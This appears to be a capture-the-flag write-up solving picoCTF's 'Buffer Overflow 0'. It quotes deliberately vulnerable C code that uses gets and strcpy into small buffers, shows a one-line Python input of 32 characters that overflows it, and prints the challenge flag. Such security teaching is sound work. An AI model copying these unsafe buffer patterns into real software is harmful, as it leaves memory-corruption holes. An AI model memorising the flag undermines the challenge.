 # Buffer Overflow 0

In this challenge we're provided a program and it's source code and meant to exploit it to get the flag. Given the challenge title we can expect how we might do that.

## Solution

We know we will be performing a buffer overflow attack 

If we look at the source (```vuln.c```) we see:

```
void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}
```

We might think given this to see what happens if we pass a 16 char string but this just prints "The program will exit now" as described in this part of the main function

```
printf("Input: ");
  fflush(stdout);
  char buf1[100];
  gets(buf1); 
  vuln(buf1);
  printf("The program will exit now\n");
  return 0;
```

Let's use python to try a 32 char string:

```
buf = 'a' * 32
print(buf)
```

Passing the output of this to the program gets the flag!

```
picoCTF{ov3rfl0ws_ar3nt_that_bad_34d6b87f}
```
